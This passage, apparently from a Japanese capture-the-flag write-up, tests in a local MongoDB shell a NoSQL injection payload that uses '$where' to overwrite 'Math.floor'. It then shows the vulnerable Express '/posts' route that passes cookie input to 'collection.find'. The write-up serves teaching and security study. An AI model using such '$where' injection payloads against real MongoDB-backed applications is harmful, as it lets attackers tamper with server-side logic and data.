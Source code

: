 今回は MongoDB ですが、どこかで `Math.floor` を書き換えることができないでしょうか。例えば、どこかで NoSQL Injection ができるとして、`collection.find` の引数に `{'$where': 'Math.floor = function () { return 1 }; return Math.floor(0)'}` を与えるのはどうでしょう。

このようなことが実行可能かどうか、MongoDB を手元で立ち上げて試してみましょう。

```
$ mongo
︙
> db.posts.findOne({'$where': 'Math.floor = function () { return 1 }; return Math.floor(0)'})
{
        "_id" : ObjectId("5eda18529ad2bedc0477fbd0"),
        "author" : "test",
        "content" : "poyo"
}
> db.posts.findOne({'$where': 'return Math.floor(0)'})
{
        "_id" : ObjectId("5eda18529ad2bedc0477fbd0"),
        "author" : "test",
        "content" : "poyo"
}
> db.posts.findOne({'$where': 'return Math.floor(0)'})
{
        "_id" : ObjectId("5eda18529ad2bedc0477fbd0"),
        "author" : "test",
        "content" : "poyo"
}
> db.posts.findOne({'$where': 'return Math.floor(0)'})
null
```

これで確かに `Math.floor` を書き換えることができましたが、しばらく経つと本来の `Math.floor` に戻ってしまうようです。書き換え後は急いで `/flag` にアクセスしないとダメそうですね。

NoSQL Injection が可能な箇所を探しましょう。`find` や `findOne` が呼ばれている箇所を探すと、`/posts` で `find` にユーザ入力を渡しているのが確認できました。

```javascript
app.get('/posts', (req, res) => {

    let client = new MongoClient(MONGO_URL, { useNewUrlParser: true });
    let author = req.signedCookies.user;

    if (typeof author === 'string') {
        author = { author };
    }

    client.connect(function (err) {

        if (err) throw err;

        const db = client.db('fortuneCookie');
        const collection = db.collection('posts');

        collection
            .find(author)
            .toArray()
            .then((posts) => {
                res.render('posts', { posts })
            }
            );

        client.close();

    });

});
```